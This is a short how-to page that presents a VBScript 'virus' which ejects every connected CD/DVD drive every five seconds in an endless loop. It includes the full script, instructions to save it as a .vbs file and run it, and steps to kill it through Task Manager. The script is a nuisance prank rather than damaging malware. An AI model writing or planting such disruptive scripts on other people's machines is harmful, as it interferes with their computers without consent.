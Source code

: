 ﻿## Create a virus which continuously ejects your cd rom

This virus contains a code which when run on your PC will continuously eject all the connected optical drives even if you put them back in, it will pop them out again and again

## Steps
### Step 1: Copy the code given below and paste it in your notepad

>Set oWMP = CreateObject("WMPlayer.OCX.7")
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count - 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count - 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 5000
loop

### Steps 2: Save this file with ".vbs" extension i.e as "cdvirus.vbs". You can name it whatever you want.

### Step 3: Double click on the file to run it.

## Steps to stop it
### Open your task manager by pressing ctrl + alt + del.
### Go to process tab and select wscript.exe.
### Now click on end process.

